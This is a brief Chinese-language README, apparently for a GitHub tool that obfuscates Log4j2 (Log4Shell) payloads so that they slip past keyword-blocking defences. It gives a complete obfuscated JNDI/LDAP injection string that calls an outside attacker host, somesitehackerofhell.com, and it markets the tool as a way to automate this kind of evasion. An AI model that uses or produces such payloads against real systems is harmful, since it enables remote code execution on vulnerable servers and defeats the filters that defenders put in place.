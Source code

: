 # Log4j2混淆工具

许多开发人员开始屏蔽关键字以保护应用程序。

但是，攻击者可以使用混淆方式来进行绕过。

最常用的为系统环境变量绕过：

${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}

手动替换字符无疑是一项大工程，耗时耗力又容易出错。
Log4j2混淆工具


![image](https://github.com/Securify-Pro/Log4j2_obfuscation/blob/master/Securify-Pro.png)



